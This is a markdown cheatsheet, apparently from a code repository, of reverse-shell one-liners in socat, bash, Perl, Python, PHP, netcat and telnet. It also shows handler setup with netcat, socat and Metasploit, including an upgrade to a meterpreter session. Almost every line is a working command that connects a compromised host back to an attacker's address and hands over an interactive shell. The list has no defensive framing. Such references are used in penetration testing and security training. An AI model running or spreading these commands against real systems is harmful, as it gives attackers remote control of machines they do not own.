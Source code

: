 # Cheatsheet for Reverse-shell one-liner

## Table of contents
* [Socat](#socat_shell)
* [Bash](#bash_shell)
* [Perl](#perl_shell)
* [Python](#python_shell)
* [PHP](#php_shell)
* [Netcat](#netcat_shell)
* [Telnet](#telnet_shell)

## Spawn a handler
### Netcat
```bash
nc -lvp <PORT>
```

### Socat
```bash
socat file:`tty`,raw,echo=0 tcp-listen:4444 
```

### Metasploit
```bash
msf5 > use exploit/multi/handler
msf5 > set PAYLOAD <Payload name>
msf5 > set LHOST <LHOST value>
msf5 > set LPORT <LPORT value>
msf5 > set ExitOnSession false
msf5 > exploit -j -z
```
Shell will be spawn as a background session. You can then upgrade to meterpreter using another handler :
```bash
msf5 > use post/multi/manage/shell_to_meterpreter
msf5 > set SESSION <SESSION_ID>
msf5 > exploit
```

## Reverse-shell one-liner
### Socat <a name="socat_shell"></a>
Full interactive shell !!!
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<IP>:<PORT>
```

### Bash <a name="bash_shell"></a>
```bash
bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```
```bash
exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do $line 2>&5 >&5; done
```
```bash
exec /bin/sh 0</dev/tcp/<IP>/<PORT> 1>&0 2>&0
```
```bash
0<&196;exec 196<>/dev/tcp/<IP>/<PORT>; sh <&196 >&196 2>&196
```

### Perl <a name="perl_shell"></a>
Version dépendante de « /bin/sh » :
```bash
perl -e 'use Socket;$i="<IP>";$p=<PORT>;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Version indépendante de « /bin/sh » pour Linux (avec fork) :
```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"<IP>:<PORT>");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### Python <a name="python_shell"></a>
Full Python :
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Python with system call to bash :
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

### PHP <a name="php_shell"></a>
```bash
php -r '$s=fsockopen("<IP>",<PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);`/bin/sh -i <&3 >&3 2>&3`;'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);system("/bin/sh -i <&3 >&3 2>&3");'
```
```bash
php -r '$s=fsockopen("<IP>",<PORT>);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

### Netcat <a name="netcat_shell"></a>
```bash
nc -e /bin/sh <IP> <PORT>
```
```bash
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|nc <IP> <PORT> > f
```
```bash
rm -f x; mknod x p && nc <IP> <PORT> 0<x | /bin/bash 1>x
```

### Telnet <a name="telnet_shell"></a>
```bash
telnet <IP> <PORT1> | /bin/bash | telnet <IP> <PORT2>
```
```bash
rm f;mkfifo f;cat f|/bin/sh -i 2>&1|telnet <IP> <PORT> > f
```
```bash
rm -f x; mknod x p && telnet <IP> <PORT> 0<x | /bin/bash 1>x
```